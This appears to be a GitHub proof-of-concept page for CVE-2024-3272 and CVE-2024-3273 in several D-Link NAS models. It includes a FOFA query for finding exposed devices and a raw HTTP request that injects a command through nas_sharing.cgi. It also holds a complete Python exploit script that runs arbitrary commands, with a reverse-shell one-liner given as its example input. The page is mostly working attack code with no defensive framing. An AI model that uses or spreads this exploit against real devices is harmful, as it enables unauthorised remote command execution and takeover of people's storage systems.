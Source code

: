 ## D-Link-NAS(CVE-2024-3272&&CVE-2024-3273)

## fofa
```
body="Text:In order to access the ShareCenter"
```
![image](https://github.com/user-attachments/assets/91c444d7-8a3e-44ed-8fc1-fffabcb2e13f)

## poc
```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd==&cmd=15&system=aWQ= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 8.0.0) AppleWebKit/531.0 (KHTML, like Gecko) Chrome/40.0.874.0 Safari/531.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
```

![1f355c5370398227eca27bbebee72708](https://github.com/wy876/POC/assets/139549762/b0107148-fdd2-461d-aeff-d9c50a2069a8)

## 脚本
```python
# Author: Nick Swink (c0rnbread)
# Original post: https://github.com/netsecfish/dlink
# CVE-2024-3272 + CVE-2024-3273
#
# Description: Backdoor Authentication Bypass + Command Injection 
# Affected Devices:
# 	DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013
# 	DNS-325 Version 1.01
# 	DNS-327L Version 1.09, Version 1.00.0409.2013
# 	DNS-340L Version 1.08

import requests, argparse, base64

def main(url, command):

	base64_command = base64.b64encode(command.encode('utf-8'))
	base64_command = base64_command.decode('utf-8')

	uri = f"/cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system={base64_command}"  

	print("Sending exploit request to endpoint...")
	print(url + uri)

	r = requests.get(url + uri)

	if r.status_code == 200:
		print("Status code: 200")
		print("Exploit appeared to succeed!")
		print(f"\n\tPrinting output: {base64.b64decode(r.text).decode('utf-8')}")


	else:
		print("Status NOT 200")
		print("Exploit Failed. Exiting...")
		exit()


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Execute arbitrary command on remote system.")
    parser.add_argument("url", help="Base URL of the D-Link web interface. e.g., http://example.com")
    parser.add_argument("command", help="Command to be executed. e.g., /bin/sh -i >& /dev/tcp/localhost/9999 0>&1")

    args = parser.parse_args()

    main(args.url, args.command)

```
